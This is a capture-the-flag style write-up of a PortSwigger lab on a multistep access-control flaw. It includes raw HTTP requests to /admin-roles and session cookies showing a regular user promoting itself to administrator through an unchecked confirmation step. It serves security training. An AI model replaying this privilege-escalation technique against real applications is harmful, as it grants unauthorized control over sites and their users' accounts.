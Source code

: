 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2b3b072d-aeaf-4368-bc25-5daadcd9f6ca)


## Solution :

> Mostly developers implement strong acces controls in the first step but fail to ensure it in the subsequent steps , so we can take advantage of that to perform privilege escalation.

#### Admin user -

First  can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`. 

Then we can play around with the requests by loggin in as wiener & exploiting the flaw in the multistep process.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e8440ea8-045e-4bc0-a922-053fb4fc4cc1)

Once logged in , we can go to admin panel & modify other user's privileges.

We need to upgrade wiener as admin by flawed multistep process, so lets now poke around with carlos.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5bdb0c20-cff4-400b-9744-b231cfa22bd2)

#### Step 1 in the process - 

```http
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos&action=upgrade
```

Here we upgreaded privileges of carlos.

After modifying the privileges, we get a page like this & where the request contains a additional parameter called **confirmned=true**,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d9ae4ad-3442-41a0-be2f-9a636b1cee9d)

## Step 2 in the process -

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```

**This process of upgrading/downgrading a user's privileges has 2 steps that's why this is a multi step process.**

We here have the admin's cookie - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` by which we can send the same request but with non admin cookie

Here note that we have a parameter called `confirmed=true/false` in the POST request  body which takes us to **/admin** .

#### Wiener user -

So now we can try logging in as  **wiener** using the credentials given & try to promote ourselves as administrator.

With thehelp of inspect element , we grab the cookie of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fa7b866-ab2b-4058-96bc-c1144817a585)


Cookie of admin  - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` 
Cookie of wiener - `DVWBhHWy8qAAnzPIfHLrhQmuEYDR4shV`


Let send the non admin request with the admin's session cookie.

If we try to upgrade ourself(wiener) by changing the cookie value of admin to non admin in the request of first step , we get `401 - UNAUTHORIZED`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/198cf809-3321-4308-885d-3793a6279362)

But , if we try the same process in the second step  *ie* - `Confirming the action` step, we get a `302 - Redirect' which means we bypassed the acces control measure & upgraded the privilege of ourselves.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/477fa30b-dc70-45a0-bb00-bfe6410bc936)

Thus we solved the lab ,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fd3706a-8605-4a91-86cf-4834ebadb417)










